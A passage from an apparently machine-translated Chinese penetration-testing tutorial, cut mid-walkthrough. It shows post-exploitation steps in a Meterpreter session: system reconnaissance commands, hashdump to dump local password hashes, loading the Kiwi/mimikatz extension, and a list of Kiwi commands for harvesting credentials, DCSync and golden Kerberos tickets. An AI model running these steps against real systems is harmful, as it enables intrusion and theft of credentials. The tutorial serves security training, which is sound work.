 如果一切看起来都很好，我们会得到以下结果：

```
exploit  
```

答对 了我们赢了！我们发现该漏洞已成功运行，我们有一个 MeterMeter 外壳：

![](Images/7ec94160-17b4-447a-bf2d-458b076d4a99.png)

运行以下命令，我们可以看到我们已远程连接到具有完全系统级访问权限的系统：

```
sysinfo # This shows the system's information
getuid # This will show the user access level
ipconfig # Shows the IP address of the compromised system.  
```

![](Images/69a8ce8a-4f7f-46ea-be85-52e5a68a1fbc.png)

是掠夺和掠夺的时候了：

```
hashdump  
```

在下面的屏幕截图中，我们看到已转储本地哈希：

![](Images/64ffa220-da8a-40eb-865a-73d3bee3b9bb.png)

所以我们有本地管理员的散列。很可能这也是域控制器和其他主机上的本地管理员，但是让我们也转储一些 Active Directory 信息。为此，我们需要加载 Kiwi 工具包：

```
load kiwi
```

要查看命令，请随时键入`help`。以下是 Kiwi 命令列表：

```
Kiwi Commands
=============
Command Description
------- -----------
creds_all Retrieve all credentials (parsed)
creds_kerberos Retrieve Kerberos creds (parsed)
creds_msv Retrieve LM/NTLM creds (parsed)
creds_ssp Retrieve SSP creds
creds_tspkg Retrieve TsPkg creds (parsed)
creds_wdigest Retrieve WDigest creds (parsed)
dcsync Retrieve user account information via DCSync (unparsed)
dcsync_ntlm Retrieve user account NTLM hash, SID and RID via DCSync
golden_ticket_create Create a golden kerberos ticket
kerberos_ticket_list List all kerberos tickets (unparsed)
kerberos_ticket_purge Purge any in-use kerberos tickets
kerberos_ticket_use Use a kerberos ticket
kiwi_cmd Execute an arbitary mimikatz command (unparsed)
lsa_dump_sam Dump LSA SAM (unparsed)
lsa_dump_secrets Dump LSA secrets (unparsed)
password_change Change the password/hash of a user
wifi_list List wifi profiles/creds for the current user
wifi_list_shared List shared wifi profiles/creds (requires SYSTEM)  
```
